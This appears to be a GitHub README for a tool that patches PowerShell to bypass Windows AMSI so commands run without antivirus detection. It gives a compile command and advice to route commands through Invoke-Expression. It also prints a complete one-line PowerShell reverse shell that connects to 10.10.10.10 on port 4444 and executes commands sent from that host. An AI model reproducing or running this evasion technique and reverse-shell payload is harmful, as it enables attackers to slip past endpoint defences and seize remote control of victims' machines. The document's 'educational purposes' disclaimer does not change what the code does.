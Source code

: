 # Bypassing AMSI and Command Execution in Executable

This project demonstrates how to bypass the anti-malware scanning interface (AMSI) in Windows PowerShell to execute PowerShell commands without being detected by antivirus software.

## How It Works

AMSI is a Windows security feature that checks for malicious code in PowerShell scripts before they are executed. By default, PowerShell enables AMSI, which makes it difficult for malicious code to run undetected. However, it is possible to bypass AMSI with certain techniques.

In this project, we use a technique that involves patching an existing PowerShell process to disable AMSI scanning. This approach ensures that the PowerShell script runs without triggering any antivirus software alarms.

## Compilation Command

To compile the code in this project, use the following command:

```powershell
g++ -m64 -o happy_hacking.exe -static main.cpp
```

## Important Notes

 - Before running any PowerShell command, make sure that the command is exclusively PowerShell compatible to avoid any errors or problems.
 - It is recommended to avoid using `powershell.exe <command>` and opt for `Invoke-Expression` instead. By doing so, the command will be executed in the patched PowerShell instance created by the executable.
 - Please note that this project is intended solely for educational purposes and should not be used for malicious activities.

## Example Script

Here is an example of a single line PowerShell script that can be encoded in base64 format that can be used in the code. This script connects to a remote server at IP address `10.10.10.10` on port `4444` and starts a command shell.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535 | ForEach-Object {0}; while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {$data = ([System.Text.Encoding]::ASCII).GetString($bytes, 0, $i);$sendback = (Invoke-Expression $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> ';$sendbyte = ([System.Text.Encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush()};$client.Close();
```
